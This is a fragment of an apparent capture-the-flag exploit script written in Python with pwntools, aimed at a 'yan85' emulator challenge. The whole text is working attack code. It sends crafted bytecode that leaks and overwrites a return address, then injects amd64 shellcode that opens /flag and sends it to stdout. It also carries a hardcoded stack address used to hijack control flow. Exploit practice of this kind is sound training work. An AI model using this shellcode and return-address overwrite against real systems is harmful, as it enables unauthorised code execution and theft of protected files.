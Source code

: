     #read_ret_addr
    a_reg,interpret_imm,0,
    b_reg,interpret_imm,254,
    c_reg,interpret_imm,255,
    sys_read_mem,interpret_sys,a_reg,

    #get_addr
    a_reg,interpret_imm,1,
    b_reg,interpret_imm,254,
    c_reg,interpret_imm,255,
    sys_write,interpret_sys,a_reg,

    #over_write_addr
    a_reg,interpret_imm,0,
    b_reg,interpret_imm,254,
    c_reg,interpret_imm,255,
    sys_read_mem,interpret_sys,a_reg,
]

shell_code='''
push 0x616c662f
mov BYTE PTR [rsp+4],0x67
xor rax,rax
inc rax
inc rax
mov rdi,rsp
xor rsi,rsi
syscall
int 3

xor rdi,rdi
inc rdi
mov rsi,rax
xor rdx,rdx
push 60
pop r10
push 40
pop rax
syscall
'''
payload=asm(shell_code,arch='amd64')
shell_len=len(payload)
yan85_asm=bytes(yan85_code)


p.sendafter("Good luck!",yan85_asm)

payload+=b'\x90'
p.sendlineafter("... read_memory\n",payload)

#b'\x01\xfe\xff\x00\x00\x0c\x00\x00'
payload=b'1'*(1)
p.sendlineafter("... read_memory\n",payload)

p.recvuntil("... write\n")
recv_data=p.recv(42)
a=u64(p.recv(8))
ret_addr=a-0x208
print(recv_data)
print(hex(a))

payload=b'1'*(2)+b'\x01\xfe\xff\x00\x00\x10\x00\x00'+p64(0x6161616161616161)*2+p64(0x7fffffffe218+8)
p.sendlineafter("... read_memory\n",payload)

#p.interactive()




